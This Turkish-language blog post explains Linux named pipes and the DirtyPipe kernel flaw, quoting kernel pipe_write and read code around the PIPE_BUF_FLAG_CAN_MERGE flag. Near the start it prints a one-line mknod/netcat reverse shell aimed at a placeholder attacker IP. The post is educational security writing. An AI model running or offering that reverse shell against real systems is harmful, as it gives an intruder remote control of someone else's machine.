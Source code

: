 DirtyPipe açığına geçmeden önce offensive kullanım örneği vermek amacıyla isimli borularla ilgili dokunmak istediğim bir şey var. Mknod/Mkfifo kullanarak reverse shell oluşturabileceğinizi ve kullanabileceğiniz biliyor muydunuz?

```cpp
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
```

2-3 belki daha önce(telegram historyden baktım 2017’ymiş) ilgili komutu gördüğümde gerçekten mindfuck geçirmiştim fakat şimdi pipeları biraz da olsun öğrendiğim için neden olmasın ki diyebiliyorum. 

Daha detaylı bilgi için:

[https://shadowslayerqwerty.medium.com/creating-a-netcat-reverse-shell-without-e-89b45134de99](https://shadowslayerqwerty.medium.com/creating-a-netcat-reverse-shell-without-e-89b45134de99)

## DirtyPipe

Direkt detaylı bilgi: [https://dirtypipe.cm4all.com/](https://dirtypipe.cm4all.com/)

Kısaca: 2006 yılında Linux üzerinde splice diye bir sistem çağrısı entegre edilmiş. İlgili sistem çağrısı borular arasındaki iletişimde tüm datanın kernel’a gidip tekrardan userland’e geri dönmemesi için verimlilik adına kullanılmak amacıyla ortaya çıkmış tabi. Bunu da borular arasındaki buffera alınan veriler içerisine “******PIPE_BUF_FLAG_CAN_MERGE******” bayrağı ile sağlamışlar. Buraya kadar her şey düzgün giderken buffer’a eklenen her veri içerisine bu değer işlenmiş fakat ilgili refactoring düzgün işletilmediği veya kaçırıldığı için ilgili bayrak, splice operasyonu sırasında initialize edilmediği için saldırgan kişiler initialize sırasında istediği değerleri read-only buffer içerisine yazabilmişler. Sonrası malum zaten.

Kısacasından ziyade açıklamaya girersek eğer:

Borularda yazma işlemini gerçekleştiren **pipe_write()** fonksiyonu gerçekleştiriyor. Eğer boru boş değilse son buffer içerisindeki veri ile şu an ki veriyi birleştirmekle yükümlü. Bunu da pek tabi bayrak ile yapıyor. Bunu yaparken de verileri farklı bufferlarda tutabilmek için aslında 2 adet dallanma gerçekleştiriyor. Yazma işlemi yapacağı zaman yeni oluşturulan buffer’ı **“PIPE_BUF_FLAG_CAN_MERGE”** olarak işaretliyor ki gelen veriler birleştirilebilsin. Veri akışı bitene kadar da bu bayrak kullanılıyor.  Yeni oluşturulan buffer da doğal olarak memory table’da belirli bir allocation işlemi gerçekleştiriyor. 

```cpp
buf = &pipe->bufs[head & mask]; 
buf->page = page;
buf->ops = &anon_pipe_buf_ops;
buf->offset = 0;
buf->len = 0;
 if (is_packetized(filp))
  buf->flags = PIPE_BUF_FLAG_PACKET;
 else
   buf->flags = PIPE_BUF_FLAG_CAN_MERGE; 
 pipe->tmp_page = NULL; 
 **copied = copy_page_from_iter(page, 0, PAGE_SIZE, from);**
```

```cpp
if (!buf->len) {
				pipe_buf_release(pipe, buf);
				spin_lock_irq(&pipe->rd_wait.lock);
				tail++;
				pipe->tail = tail;
				spin_unlock_irq(&pipe->rd_wait.lock);
			}
			total_len -= chars;
			if (!total_len)
				break;	/* common path: read succeeded */
			if (!pipe_empty(head, tail))	/* More to do? */
				continue;
```

